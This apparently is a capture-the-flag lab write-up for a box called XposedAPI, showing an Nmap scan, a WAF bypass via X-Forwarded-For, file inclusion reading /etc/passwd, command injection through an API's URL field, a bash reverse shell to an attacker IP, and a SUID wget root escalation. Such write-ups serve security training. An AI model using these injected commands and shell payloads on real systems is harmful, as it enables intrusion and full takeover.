 # XposedAPI

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.134
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:46 +08
Nmap scan report for 192.168.183.134
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
13337/tcp open  unknown
```

This box likely has some API exploitation, so we can start proxying traffic through Burp.&#x20;

### API --> RCE

Port 13337 shows some basic documentation for an API:

<figure><img src="../../../.gitbook/assets/image (97) (3).png" alt=""><figcaption></figcaption></figure>

The most interesting was the `/update` endpoint, which accepted a user-controlled URL and says it updates the application via a 'Linux Executable'. This might be vulnerable to RCE if we can chain commands to the end of the URL.&#x20;

But we didn't have a username yet. There's also a `/logs` endpoint:

<figure><img src="../../../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

Attempting to visit it results in a WAF blocking us:

```
$ curl http://192.168.183.134:13337/logs
WAF: Access Denied for this Host.
```

Since the application mentioned that this is meant to be open to `localhost` only, we can try appending the `X-Forwarded-For` header.&#x20;

```
$ curl http://192.168.183.134:13337/logs -H 'X-Forwarded-For: localhost'
Error! No file specified. Use file=/path/to/log/file to access log files.
```

This looks vulnerable to LFI, and it works!

{% code overflow="wrap" %}
```
$ curl http://192.168.183.134:13337/logs?file=/etc/passwd -H 'X-Forwarded-For: localhost
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```
{% endcode %}

There's a `clumsyadmin` user present, and this might be the user we need. Then, we can use the `/update` endpoint to send requests to our HTTP server:

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Since our parameters was being passed to a 'Linux Executable', I assumed that the URL parameter was not being properly sanitised (and is probably using `wget` or something).&#x20;

To test, I sent this JSON data:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; wget 192.168.45.184/hiiamrce"}
```

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

This confirms we have RCE. We can get a reverse shell via this JSON object:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; bash -c 'bash -i >& /dev/tcp/192.168.45.184/21 0>&1'"}
```

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Wget SUID Binary

I searched for SUID binaries on the machine, and found that `wget` was one of them:

```
clumsyadmin@xposedapi:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/bin/wget
<TRUNCATED>
```

Using this, we can get a `root` shell:

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
wget --use-askpass=$TF 0
```

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

